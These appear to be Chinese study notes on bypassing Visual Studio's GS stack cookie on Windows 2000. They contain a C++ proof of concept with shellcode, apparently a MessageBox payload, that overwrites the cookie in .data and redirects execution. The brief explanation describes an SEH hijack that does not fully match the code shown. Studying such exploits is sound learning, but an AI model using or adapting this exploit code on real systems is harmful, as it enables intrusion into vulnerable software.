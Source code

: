 ### 说明

> 在函数test中存在栈溢出漏洞，变量input在strcpy后将会被覆盖，而strcat将会取得一个非法地址，函数啊将会转入SEH处理流程，我们可以在`security_cookie`检查之前劫持系统流程

- 注意：测试环境为`Windows 2000 SP4`，编译版本为`Release`版本，编译器为`Visual Studio 2005`，编译选项为`禁用编译优化/0d`
- 使用`Windows 2000`的原因是为了防止`SafeSEH`的影响
- 待完成：Page:277

## 正面硬刚GS(替换.data中的原Cookie)

### 代码

```cpp
#include<string.h>
#include<stdlib.h>

char Shellcode[] =
"\x90\x90\x90\x90"//new value of cookie in .data 
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x6B\x61\x6F\x6F\x68\x4D\x69\x73\x61\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\xF4\x6F\x82\x90" // result of \x90\x90\x90\x90 xor EBP 
"\x90\x90\x90\x90" // Nop Code
"\x94\xFE\x12\x00" // address of Shellcode 
;

void test(char * s, int i, char * src)
{
	char dest[200];

	if(i < 0x9995)
	{
		char* buf = s + i;
		*buf = *src;
		*(buf + 1) = *(src + 1);
		*(buf + 2) = *(src + 2);
		*(buf + 3) = *(src + 3);
		strcpy(dest, src);
	}
}

void main()
{
	char* str = (char *)malloc(0x10000);
	test(str, 0xFFFF2FB8, Shellcode);
}
```
